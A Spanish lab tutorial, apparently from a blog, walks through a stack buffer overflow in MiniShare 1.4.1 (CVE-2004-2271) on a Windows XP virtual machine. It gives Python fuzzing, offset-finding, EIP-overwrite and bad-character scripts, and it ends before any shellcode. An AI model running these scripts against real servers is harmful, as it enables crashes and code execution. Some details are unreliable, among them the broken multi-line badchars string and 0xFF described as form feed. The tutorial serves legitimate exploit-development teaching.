# Buffer Overflow en Windows XP: Exploit de Minishare 1.4.1
AVISO: Este caso práctico tiene como único fin el aprendizaje, mapecode no se hace responsable del uso ílicito de las herramientas explicadas.

## Configuración
Necesitamos 2 máquinas virtuales para realizar este caso práctico, una con **windows xp** y otra con **kali linux**. En mi caso las he configurado en virtualbox.

La primera máquina virtual debe contener **minishare 1.4.1**([este archivo](minishare-1.4.1.zip)) y el depurador **immunity debugger**(descargalo [aquí](https://www.youtube.com/redirect?q=https%3A%2F%2Fdebugger.immunityinc.com%2FID_register.py&event=video_description&v=PQJn4s4E8Os&redir_token=HhYbzQxWKEezzVSvgEVpywbDk1N8MTU3NTQ2NTA0MUAxNTc1Mzc4NjQx))

La segunda máquina virtual no necesita ninguna configuración especial y podemos descargar directamente la máquina en este enlace.

Es importante tener en cuenta que debemos tener las dos máquinas en la misma red, para que se puedan comunicar. Podemos comprobarlo haciendo un ping de una a la otra y viceversa. Si tienes algún problema asociado a esto dejame un comentario en el blog e intento ayudarte.

## Conceptos necesarios
### Buffer Overflow
Buffer Overflow ocurre cuando un programa no controla adecuadamente la cantidad de datos que se copian sobre un área de memoria reservada.  
* **Stack-Based Overflow:** Cuando el desbordamiento se produce en la pila (stack). La pila es la zona de memoria en la cual se van guardando datos que más adelante deben ser recuperados.
* **Heap-Based Overflow:** Cuando el desbordamiento se produce en el montículo (heap)

### Exploits
Un exploit es un sotware capaz de aprovecharse de una vulnerabilidad de seguridad de un sistema y lograr modificar el comportamiento de este.

En este caso al ser windows no habrá protecciones de memoria, pero para atacar versiones superiores es bueno conocer los siguientes conceptos:
* **DEP(Data Execution Prevention):** Conjunto de tecnologías hardware y software que realizan comprobaciones adicionales de la memoria para ayudar a evitar que el código malicioso se ejecute en el sistema.
* **ASLR(Address Space Layout Randomization):** Aleatoriza las direcciones base de las aplicaciones cargadas y DLLs cada vez que se inicia el sistema operativo, muy típico en linux.

### Lenguaje ensamblador
El lenguaje ensamblador se puede definir formalmente como el conjunto de mnemónicos que representan instrucciones básicas para los computadores, microprocesadores, microcontroladores y otros circuitos integrados programables.

Las instrucciones de ensamblador que vamos a usar son las siguientes:
* **JMP (Jump):** salta a una dirección de memoria
* **NOP (No Operation):** no realiza ninguna operación (\x90)

Los registros en x86(32 bits) que vamos a usar son los siguientes:
* **ESP (Extended Stack Pointer):** Controla la parte superior de la pila
* **EIP (Extended Instruction Pointer):** Apunta a la dirección de memoria de la siguiente instrucción a ejecutar por la CPU

### Debugger
Un debugger es una herramienta que nos permite estudiar el comportamiento de un código. En este caso vamos a usar Immunity Degubber, este programa se divide en 4 partes principales:



* **Instrucciones de la CPU:** el código en lenguaje ensamblador con los diferentes tipos de instrucciones utilizadas
* **Registros y Flags:** aquí tenemos los diferentes registros que usa el programa, podemos ver por ejemplo el ESP y EIP que hemos comentado antes. También podemos observer los flags, aunque para este caso práctico no los vamos a usar.
* **Dump de la memoria:** sería el volcado de la memoria de nuestro programa.
* **Pila:** en esta parte podemos observar como se encuentra la pila del programa.

Los atajos del teclado que vamos a usar del Immunity Debugger son los siguientes: 
* Reinicar programa (Ctrl+F2)
* Ejecutar Programa (F9)

### Fuzzing
Fuzzing es una parte muy importante en el desarrollo de exploits, consiste en enviar datos en uno de los puntos de entrada de al aplicación. 

Nuestro objetivo será mandar muchos datos para que se produzca un buffer overflow en la aplicación que queremos vulnerar. Los puntos de entrada de nuestra aplicación (Minishare) serían los comandos del protocolo que usemos para comunicarnos, por ejemplo si usamos HTTP podríamos mandar una cantidad muy grande de datos en una petición de tipo GET.

## Revisión de la vulnerabilidad
La vulnerabilidad que vamos a explotar tiene el código [CVE-2004-2271] (https://nvd.nist.gov/vuln/detail/CVE-2004-2271). Su descripción dice así "El desbordamiento del búfer en MiniShare 1.4.1 y versiones anteriores permite a los atacantes remotos ejecutar código arbitrario a través de una solicitud HTTP GET larga"

Gracias a esta descripción sabemos que lo que debemos enviar para conseguir desbordar el buffer es una petición HTTP de tipo GET con una cantidad de datos muy grande.

## Realizar ataque
La primera versión de nuestro exploit será la siguiente:

```Python
#!/usr/bin/python

import sys
import socket


buff = ''
while True:
    try:
        buff += "\x41"*100
        req = "GET "+buff+" HTTP/1.1\r\n\r\n"
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((sys.argv[1],80))
        print(str(len(buff))+' Bytes')
        s.send(req)
        s.recv(1024)
        s.close()
    except:
        exit()

```

El objetivo de esta primera versión del programa será producir un buffer overflow en el programa minishare. Para comprobar el programa podemos ejecutar nuestro exploit despues de lanzar minishare, el exploit necesita por argumentos la dirección ip de la maquina con windows xp.

Para comprobar si hemos conseguido nuestro objetivo podemos seguir estos pasos:
* Ejecutar minishare
* Ejecutar immunity debbuger
    * Click en file, attach
    * Seleccionar el proceso minishare y click en attach

        

    * Pulsamos F9 para ejecutar minishare en immunity y debe aparecer en la esquina inferior derecha del immunity _"Running"_ 
* Lanzamos nuestro exploit

Si el proceso se ha realizado correctamente debemos obtener lo siguiente:



Este proceso tendremos que seguir para ver el efecto que tiene nuestro exploit sobre minishare.

### Controlar registro EIP
Ahora nuestro objetivo será saber cuantos bytes necesitamos exactamente antes de sobreescribir EIP. Este calculo lo vamos a realizar con un patrón, usando la funcionalidad _mona_ de immunity debugger.

Los pasos a seguir para realizar el calculo serían los siguientes:
* Ejecutar el comando **!mona pattern_create 1800** en la consola de immunity, porque 1800 es el valor en el cual el exploit anterior se ha quedado parado.

    

    Este comando nos ha generado un fichero en **C:\Archivos de programa\Immunity Inc\Immunity Debugger** llamado **pattern.txt**
    

* Reiniciar immunity y minishare 
* Ejecutar un nuevo exploit (exploit2.py) con la parte ascii del pattern anterior en el buff, se puede ver a continuación:

    ```Python
    #!/usr/bin/python
    
    import sys
    import socket
    
    s = socket.socket()
    s.connect((sys.argv[1], 80))
    buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9"
    req = "GET "+buff+" HTTP/1.1\r\n\r\n"
    s.send(req)
    s.recv(1024)
    s.close()
    ```
* Ejecutar **!mona pattern_offset 36684335**, siendo el número el valor de EIP después de ejecutar exploit2.py

Podemos ver en la imagen que el valor que nos ha calculado mona es 1787, por lo tanto, a partir de la posición 1788 estamos sobreescribiendo EIP
* Creamos un nuevo exploit (exploit3.py) cambiando el buffer por esta operación **"A"*1787+"B"*4+"C"*400**. La primera parte sería antes de llegar a sobreescribir EIP, la segunda la sobreescritura y la tercera parte donde introduciremos más adelante el _shellcode_(para acceder a la máquina windows)

    
    
    Como se puede ver en la imagen EIP tiene las 4 B's y ESP todas las C's
    ```Python
    #!/usr/bin/python
    
    import sys
    import socket
    
    s = socket.socket()
    s.connect((sys.argv[1], 80))
    buff = "A"*1787+"B"*4+"C"*400
    req = "GET "+buff+" HTTP/1.1\r\n\r\n"
    s.send(req)
    s.recv(1024)
    s.close()
    ```
### Bad characters
Los _bad characters_ son caracteres que se consideran malos o que no interesan y se deben en el string, la dirección de retorno y el shellcode. Los más comunes son los siguientes:
* 00: Byte nulo (NULL)
* 0A: Nueva línea (\n)
* 0D: Retorno de carro (\r)
* FF: salto de formato (\f)

En un primer caso no vamos a evitarlos, sino que vamos el proceso para detectar estos caracteres "malos".

Pasos a seguir:
* Lo primero que vamos a hacer es generar una lista en hexadecimal con los caracteres ASCII de 0 a 255 con el comando **!mona bytearray**

    

* Se genera un fichero que se guarda en un fichero llamado **bytearray.txt** en el mismo sitio que anteriormente **pattern.txt**. Copiamos ese string en un nuevo exploit (exploit4.py) para sumarlo al buffer que teniamos antes
    ```Python
    #!/usr/bin/python
    
    import sys
    import socket
    
    s = socket.socket()
    s.connect((sys.argv[1], 80))
    buff = "A"*1787+"B"*4+"C"*400
    badchars = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
    "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    buff += badchars
    req = "GET "+buff+" HTTP/1.1\r\n\r\n"
    s.send(req)
    s.recv(1024)
    s.close()
    ```
* Ejecutamos el proceso de nuevo con el nuevo exploit y pulsamos click derecho en el registro ESP y "follow in dump"

    

En la siguiente imagen podemos ver como a justo después de las C's tenemos un badchar y esto hará que el resto de caracteres no queden bien representados.

